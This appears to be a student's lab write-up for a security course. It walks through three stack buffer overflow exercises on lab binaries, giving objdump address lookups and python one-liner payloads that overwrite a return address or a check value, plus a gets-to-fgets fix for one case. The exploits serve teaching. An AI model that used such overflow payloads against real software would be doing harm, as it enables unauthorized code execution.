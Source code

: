 # LAB 1

## File bof1.c

**Run vitual environment by docker**

>docker run -it --privileged -v D:\StudyHK1_2024\InformationSecurity\SecLabs:/home/seed/seclabs img4lab

**Getting secretFunc() address by command**
`objdump -d bof1.out|grep secretFunc`

![alt text](./image/image.png)

**Stack frame**

![alt text](./image/image-1.png)

=> It’s a buffer overflow at the 205th byte.

**Run the program by the command**

- Take advantage of the above statement to automatically input 204 bytes of the letter 'a', then insert the address of the `secretFunc` function.
- placement byte (204byte) + address secretFunc(\x6b\x84\x04\x08)

 > echo $(python -c "print('a'*204 + '\x6b\x84\x04\x08')") | ./bof1.out

![alt text](./image/image-2.png)

=> Successful Attack

=> To prevent exploitation in this case, I will replace `gets()` with `fgets()` to ensure the correct limit of array a is respected.


## File bof2.c

**Summarizing**

- In this case, the array buf[] has 40 elements, but the `fgets()` command reads up to 44 elements `(fgets(buf, 45, stdin))`, with the last element reserved for `\0`, the null terminator character.

 => We rely on the last 4 elements to modify the check.

**Stackframe**

![alt text](./image/image-3.png)

**Run the program with the command**

![alt text](./image/image-5.png)

>echo $(python -c "print('a'*40 + '\xef\xbe\xad\xde')") | ./bof2.out

![alt text](./image/image-6.png)

=> Successfully


## File bof3.c

**Summarizing**

- In this case, the `buf[]` array has 128 elements, but the `fgets()` command reads up to 133 elements.

 => We rely on 4 elements to replace the address addition function into the address function shell

**Stack frame**

![alt text](./image/image-7.png)

**Get the address of the shell function:**
`objdump -d bof3.out|grep shell`

![alt text](./image/image-8.png)

**Run the program with the command**

`echo $(python -c "print('a'*128 + '\x5b\x84\x04\x08')") | ./bof3.out`

![alt text](./image/image-7.png)

=> Seccessful
